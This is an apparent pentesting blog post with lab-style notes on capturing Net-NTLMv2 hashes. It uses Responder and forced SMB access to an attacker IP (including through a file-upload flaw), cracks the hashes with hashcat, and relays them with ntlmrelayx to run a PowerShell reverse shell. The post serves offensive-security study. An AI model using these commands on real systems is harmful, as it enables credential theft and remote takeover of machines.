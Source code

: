 ```yaml
---
layout: post
title: Net-NTLMv2
titledate: 09/12/23
tags: ["infosec","offsec", "password", "ntlm", "responder", "exploit"]
---
```


#### net-NTLMv2

sometimes we may gain access to a system as an unpriveleged user which means we cannot use tools like mimikatz

in this example we will assume we setup a bind shell on our target windows machine and connect to it 

    $ nc 192.168.50.50 4444

we can now check which user we are logged in as and what priveleges we have

    $ whoami

    $ net user ted

ted does not belong to the administrator group but does belong to the Remote Desktop Users group

because we do not have Admin privs we can not use mimikatz, but we can setup an smb server and use ted to attempt authentication
to capture his NTLM hash

    $ sudo responder -I tun0

next we want to provide an arbitrary share in order to catch ted's auth creds

if we visit our NC bind shell terminal to our first machine 

    C:\> dir \\192.168.119.2\test

in this example test does not exist

Responder will capture the hash so we can save it to ted.hash

and then find the hashcat mode 

    hashcat --help | grep -i "ntlm"

and using the NTLMv2 network protocol mode

    $ hashcat -m 5600 ted.hash /usr/share/wordlists/rockyou.txt --force

now we should be able to utilize the rdp protocol to connect with ted to the target machine with the cracked hash password

#### capturing ntlm via http upload vuln

in this example, the web server was vulnearble to a file upload vulnerability - while there was no executable php or asp code that could be achieved (as seen in the simple-backdoor.php file i attempted to upload), through this upload vuln we are able to pass the responder path to our non existing smb share to capture the ntlm hash

![_config.yml]({{ site.baseurl }}/images/exploitation/net_ntlm_file_upload.png)

after retrieving the hash via the method in the pic above we perform the last 2 hashcat steps mentioned in the steps above to get the password

#### relaying Net-NTLMv2

in this attack we will not only grab the hash but then forward it on to a target of our choosing with one of the impacket libraries ntlmrelayx 

    $ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc base64encode ps"

### Note: i used this one liner for a [PS reverse shell](https://st4rguard.github.io/evading_AV/)

in the command above we use no-http-server because we want to forward smb and then smb2 for smbv2 then our target machine and finally our command which we have opted for a powershell reverse shell one liner

next we conect to our target with netcat to get our client to attempt to establish an smb connection

    C:> dir \\192.168.1.1\test.txt

then in our ntlmrelayx tab we receive an incoming connection

this will establish our reverse shell connection